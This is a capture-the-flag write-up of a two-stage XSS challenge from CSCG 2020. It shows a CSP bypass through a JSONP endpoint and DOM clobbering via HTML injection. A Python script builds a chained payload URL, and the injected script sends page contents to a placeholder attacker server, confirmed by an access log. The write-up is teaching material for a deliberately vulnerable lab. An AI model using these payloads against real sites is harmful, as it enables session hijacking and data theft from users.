



# Xmas Shopping Site

This was my favourite Web challenge in the CSCG 2020. Like the name suggests, it is a [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) challenge. We are given a link to a website `http://xss.allesctf.net/`. It is a very simple shop-like website. We can add items to our cart but there is no way to actually check out. But the Site has a few interesting links:
* Stage2 : There is a button called Stage2 which leads to the second stage. It says, that the admin has the flag stored on this site
* Submit : here we can Submit a link for the admin to review. This is were the XSS can take affect  
* Suche (Search) : The main page has a Search feature, with which you can search for products.

We have to find a XSS on the main page, because the `Stage2` page needs a token to be accessed, this token is contained in the link to `Stage2` on the main page. So the attack plan is to find some kind of XSS on the main page, which than has the token and can access `Stage2` where we have to find another XSS.
## XSS in Stage1
The only real feature the main page has to offer is the search feature. If we search for something that is not found we get:

(`test` could not be found)
The string we searched for is actutally passed as a get parameter `search`. And it seems to be echoed here. So we could try something like  `http://xss.allesctf.net/?search=<script>alert(1)</script>`. But this doesn't work. We do get the error but the script is not executed. I wanted to know what happened so I looked into the Dev-tools console. ```Refused to execute inline script because it violates the following Content Security Policy directive: "default-src 'self' http://*.xss.allesctf.net". ....```
The bowser tells us here, that it refused to execute our payload because it violates the [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy). The CSP is a way to prevent some XSS attacks. If the server sends the `Content-Security-Policy` with its response the bowser only allows some scripts to be executed based on the content of the header.
In this case:
`Content-Security-Policy: default-src 'self' http://*.xss.allesctf.net; object-src 'none'; base-uri 'none';`. I don't really understand this header, but the rest of the browser error message is helpful : `... Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.` As I understand this Note the browser is allowed to execute scripts if they have got a `src` tag, which matches the `default-src`. In our case this is `http://*.xss.allesctf.net`. The goal now is to find some sort of request that reflects our input on the website.
To find such a request, I looked through the request made by the browser to the host, while loading the page and I found:
`http://xss.allesctf.net/items.php?cb=parseItems`
The response to this request is
```js
parseItems([{"title": "Weihnachtsbaum", "url": "3.png", "text": "Plastik und voll schön."},{"title": "Christbaumkugel", "url": "1.png", "text": "Rund und bunt."},{"title": "Schlitten", "url": "2.png", "text": "Es ist glatt, er ist schnell!"}])
```
It seems like, that out parameter `cb` is reflected at the beginning of the response. The request `http://xss.allesctf.net/items.php?cb=alert(1)//` returns our payload just fine, so if we want to get this script to be executed we just have to visit `http://xss.allesctf.net/?search=<script src='items.php?cb=alert(1)//'></script>`. This now works because the script has a `src` tag which matches the filter. But all in all this XSS doesn't help much. We can use it to click the `Stage2` button, but that's it : `http://xss.allesctf.net/?search=<script src='items.php?cb=document.getElementById("stage2").click()//'></script>`
(Requesting the `Stage2` page with fetch or something like that is blocked by [CORS](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing), because `stage2` has it's own subdomain)
That means we have to also find a XSS on `Stage2`
## XSS on Stage2
On the `Stage2` page the only real feature is the ability to change the background. And this is actutally done in a really weird way. On the top of the page there is a dropdown menu in which we can choose one of three backgrounds. If we do that the client first does a post request to the Server and then reloads the page.


This is weird because of the post request in the middle. The browser can handle this background change compleatly on its own without any interaction with the server. And if there is a rule for CTF challenges, than it is: `If something is done weird, it's intentional and it is important for exploitation`. So I looked into it a bit more. The script at `http://stage2.xss.allesctf.net/static/js/background.js` is responsible for the whole background changing thing:
```js
$(document).ready(() => {
    $("body").append(backgrounds[$("#bg").val()]);
});

$(document).ready(() => {
    $(".bg-btn").click(changeBackground)
});

const changeBackground = (e) => {
    fetch(window.location.href, {
        headers: {'Content-type': 'application/x-www-form-urlencoded'},
        method: "POST",
        credentials: "include",
        body: 'bg=' + $(e.target).val()
    }).then(() => location.reload())

};
```
The first three lines in this script cause the loading of the background image. The `#bg` is a hidden input field, which is send by the server and it reflects the value of the last POST request. That means, if we change the background to `green` with the help of the POST request, than `$("#bg").val()` is the string `green`. This also works for strings which are not `green`, `red` or `tree`. We have basicly full constrol over `$("#bg").val()`, because we can do a POST request with the intended content. This even works from `Stage1`, because `CORS` only blocks us from doing a request where we can look at the result. But the result of this POST request is not import. The import thing is the change of the variable.

The rest of the script is not that interesting. The next three lines change the click callback on the `.bg-btn`, which is the dropdown menu, to the `changeBackground` function and `changeBackground` does the weird POST request.  

After playing around a bit with the POST request, I found out, that we can actually do a HTML injection with it. If we do a post request with `bg="><h>test</h>`, then the string is echoed into `<input type="hidden" id="bg" value="[injection here]">`  resulting in
```html
<input type="hidden" id="bg" value=""><h>test</h>">
```
But like in `Stage1` we cannot use inline script tags to get JS execution. Here I was suck for a very long time (like two days or something like that). But eventually I looked at the `background` script again. The important part is the `$("body").append(...);` in the second line, because it can add a `script` tag add the end of `body` and it would actually be executed. (I don't know why this is I just tried it out). Our goal now is to somehow get the expression `backgrounds[$("#bg").val()]` to result in the source code for a script. At first glance this seems to be impossible, because the `backgrounds` array contains:
```js
var backgrounds = {
    'red': [
        '</img>'
    ],
    'green': [
        '</img>'
    ],
    'tree': [
        '</img>'
    ]
}
```
But after rewatching one of [Liveoverflows livestreams](https://www.youtube.com/watch?v=zjriIehgAec) I remembered a explotation methode called [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). In our case we want to clobber the JS variable `backgrounds`. To clobber something we have to make the definition invalid and then give an alternetive. In this specific case, we can invalidate the definition of by appending a open HTML comment at the end of our HTML injection because `backgrounds` is defined in a script right after the hidden input field. And an alternetive to the `backgrounds` js variable is also easy because we can include some HTML tag in our HTML injection with the id `backgrounds`. In JS this HTML tag will be used if we try to access the variable  `backgrounds` then. So our payload should look like this :
```
bg="><span id="backgrounds">test</span> <!--
```
The page around the hidden input looks like this after the request:
```html
<!-- set bg color  -->        injection here
                                    |
                                    V                
<input type="hidden" id="bg" value=""><span id="backgrounds">test</span> <!--">

<script nonce="C93HURZctsHnAYfVXW4koFTmEso=">
    var backgrounds = {
        'red': [
            '</img>'
        ],
        'green': [
            '</img>'
        ],
        'tree': [
            '</img>'
        ]
    }
</script>

<div class="jumbotron">
    <h2 class="admin-h">Stage2 </h2>
    <p class="lead"></p>
    <hr class="my-4">
        <p></p>
    <p class="lead">
        <div class="text-center">
            <b>🎅🏻  Have fun! 🎅🏻</b>
            <!--  
                What is CORS? Baby don't hurt me, don't hurt me - no more!
            -->
            <br>
                                        <b>CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}</b>

        <div>
    </p>
</div>
```
If we now try to access the `background` in the JS Console...


... we sucessfully clobbered the variable. We now could no change `$("#bg").val()` to `innerText` this would mean, that `backgrounds[$("#bg").val()]` then is the `innerText` of our `span` tag (`test` in this case)

That means, that the payload:
```
bg=innerText"><span id="backgrounds">%26lt%3Bscript%26gt%3Balert%281%29%26lt%3B%2Fscript%26gt%3B</span> <!--
```
actually executes `alert(1)` because the `backgrounds` html tag has an innerText `<script>alert(1)</script>` and `$("#bg").val()` resolves to `innerText`

## Putting it togeter
The Plan:
1. Use the XSS on `Stage1` to make the POST request to `Stage2` (without CORS)
1. Redirect to `Stage2` where the payload in the post-request gets executed (this can make a non-cors request to a server of mine with the flag)
1. Profit!

To craft the initial URL I made a Python script:
```python
import urllib.parse
import html

urlencode = urllib.parse.quote_plus  # just a helper

# this is the js we want to get executed on stage2
js_stage2 = "flag=document.getElementsByTagName('b')[0].innerText; fetch('//[your server here]/flag?f='+flag,{'mode':'no-cors'})"

tag_stage2 = f"<script>{js_stage2}</script>"

payload_stage2 = f"<span id=backgrounds>{html.escape(tag_stage2)}</span> <!--"

# the parameter for the post request
bkg_param = urlencode(f'innerText">{payload_stage2}')


# because the `http://xss.allesctf.net/items.php?cb=[script here]`
# has a limit on the length of the `cb` parameter we have to split
# the script into 3

# Part 1 and 2 build up a js variable `p` which contains `bkg_param`
# Part 3 makes the POST request with `p` (`bkg_param`) as the body
# and redirects to stage2
payload_stage1_p1 = f"p='bg={bkg_param[:200]}'"
payload_stage1_p2 = f"p+='{bkg_param[200:]}'"

payload_stage1_p3 = """
u=document.getElementById("stage2");
fetch(u,{
                headers:{'Content-type':'application/x-www-form-urlencoded'},
                method:"POST",
                credentials:"include",
                mode:"no-cors",
                body:p
});
debugger;
u.click()
"""
# generates a script tag for stage1 using
# `http://xss.allesctf.net/items.php?cb=[script here]`
def gen_script_tag(script):
        script = script.replace("\n","").replace("\t","") + "//"
        scriptUrl = f"/items.php?cb={urlencode(script)}"
        searchParam = f"<script src='{scriptUrl}'></script>"
        return urlencode(searchParam)

payload_url = f"http://xss.allesctf.net/?search={gen_script_tag(payload_stage1_p1)}{gen_script_tag(payload_stage1_p2)}{gen_script_tag(payload_stage1_p3)}"


print(payload_url)
```
The result looks something like this
```
http://xss.allesctf.net/?search=%3Cscript+src%3D%27%2Fitems.php%3Fcb%3Dp%253D%2527bg%253DinnerText%252522%25253E%25253Cspan%252Bid%25253Dbackgrounds%25253E%252526lt%25253Bscript%252526gt%25253Bflag%25253Ddocument.getElementsByTagName%252528%252526%252523x27%25253Bb%252526%252523x27%25253B%252529%25255B0%25255D.innerText%25253B%252Bfetch%252528%252526%252523x27%25253B%25252F%25252F%25255Byour%252Bserver%252Bhere%25255D%2527%252F%252F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27%2Fitems.php%3Fcb%3Dp%252B%253D%2527%25252Fflag%25253Ff%25253D%252526%252523x27%25253B%25252Bflag%25252C%25257B%252526%252523x27%25253Bmode%252526%252523x27%25253B%25253A%252526%252523x27%25253Bno-cors%252526%252523x27%25253B%25257D%252529%252526lt%25253B%25252Fscript%252526gt%25253B%25253C%25252Fspan%25253E%252B%25253C%252521--%2527%252F%252F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27%2Fitems.php%3Fcb%3Du%253Ddocument.getElementById%2528%2522stage2%2522%2529%253Bfetch%2528u%252C%257B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2Bheaders%253A%257B%2527Content-type%2527%253A%2527application%252Fx-www-form-urlencoded%2527%257D%252C%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2Bmethod%253A%2522POST%2522%252C%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2Bcredentials%253A%2522include%2522%252C%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2Bmode%253A%2522no-cors%2522%252C%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2B%2Bbody%253Ap%257D%2529%253Bdebugger%253Bu.click%2528%2529%252F%252F%27%3E%3C%2Fscript%3E
```

And if we submit this URL we can see something like this in the `access.log`:
```
147.75.85.99 - - [30/May/2020:14:01:49 +0200] "GET /flag?f=CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:%3E} HTTP/1.1" 404 3850 "http://stage2.xss.allesctf.net/?token=5ed24b2cb9904" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.132 Safari/537.36"
```
And here is the flag : `CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`
